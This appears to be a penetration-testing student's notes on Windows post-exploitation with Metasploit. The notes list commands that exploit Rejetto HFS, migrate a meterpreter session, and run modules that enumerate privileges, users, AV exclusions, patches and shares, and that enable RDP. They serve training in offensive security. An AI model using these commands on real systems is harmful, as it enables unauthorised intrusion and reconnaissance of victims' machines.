 ### Uses of Windows PE methods
* Enumerate user privileges
* Enumerate logged on users
* VM check
* Enumerate installed programs
* Enumerate AVs
* Enumerate computers sonnected to domain
* Enumerate installed patches
* Enumerate shares

* PRACTICAL
* Repeat steps till db_nmap
* `use exploit/windows/http/rejetto_hfs_exec`
* `run`
* ***
* `screenshot`
* `show_mount`
* `ps`
* ***
* Migrate the session
  * `use post/windows/manage/migrate`
  * `set session [id of the meterpreter]`
  * `run` --> This will do the same thing done by `migrate [PID]`
  * ***
  * To check privileges
    	* `use post/windows/gather/win_privs`
      * `set session [ID of the meterpreter session]`
   
  * To check logged on users
      * `use post/windows/gather/enum_logged_on_users`
      * `set session[ID]`
      * `run`
   
  * Whether the target system is a virtual machine
      * `use post/windows/gather/checkvm`
      * `set session [ID]`
      * `run`
   
  * Enumerate installed application on the target
      * `use post/windows/gather/enum_applications`
      * `set session [ID]`
      * `run`
   
  * The results of a PE module will be stored in a DB and can be accessed only if I am working in a workspace
      * root/.msf4/loot --> Folder containing results
   
  * Which AV solutions are installed and which folders are not scanned by these sols.
      * `use post/windows/gather/enum_av_excluded`
   
  * If the target is part of a domain
      * `use post/windows/gather/enum_computers`
   
  * Enumerate patches
      * `use post/windows/gather/enum_patches`
      * OR In meterpreter --> `systeminfo`
   
  * Enumerate shares
      * `use post/windows/gather/enum_shares`
   
  * If RDP is enabled
      * `use post/windows/manage/enable_rdp`
      * `run` --> This would tell if RDP is enabled or not
